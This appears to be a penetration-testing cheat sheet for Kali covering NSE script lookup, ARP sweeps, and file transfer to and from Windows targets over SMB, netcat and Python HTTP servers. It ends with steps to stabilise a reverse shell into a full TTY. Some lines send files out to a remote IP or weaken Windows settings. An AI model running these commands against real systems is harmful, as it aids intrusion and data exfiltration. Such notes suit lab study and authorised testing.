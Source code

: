 ```
locate <service/keyword> | grep .nse$
  > locate http- | grep .nse$
locate *.nse | grep <service/keyword>
```

### network sweep

```
sudo arp-scan --interface=eth0 192.168.182.0/24
```

## FILE TRANSFER

### smb

```
smbserver.py -smb2support <share name> .
KALI to WINDOWS: copy \\<SMB IP>\<folder>\<file> C:\<file location>
WINDOWS to KALI: copy <file> \\<SMB IP>\<folder>\<file>

Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All if sharing doesn't work. Restart required
**set-executionpolicy remotesigned to enable running scripts
```

### nc

```
RECIEVING END: nc -l -p <port> > <file>
SENDING END: nc -w 3 <IP> <port> < lse1.txt
```

### python

```
Python 2: python -m SimpleHTTPServer <port>
Python 3: python -m http.server <port>
  > --directory </path/to/directory>
  > --bind <specific IP>
```

## FULL FUNCTONING SHELL
### spawn tty shell

```
which python
  > ls /usr/bin | grep python
  > apt list --installed | grep python
  > dpkg -l | grep python
python -c 'import pty; pty.spawn("/bin/bash")'

CTRL + Z to background terminal
echo $TERM
stty raw -echo; fg
reset
paste $TERM value
```
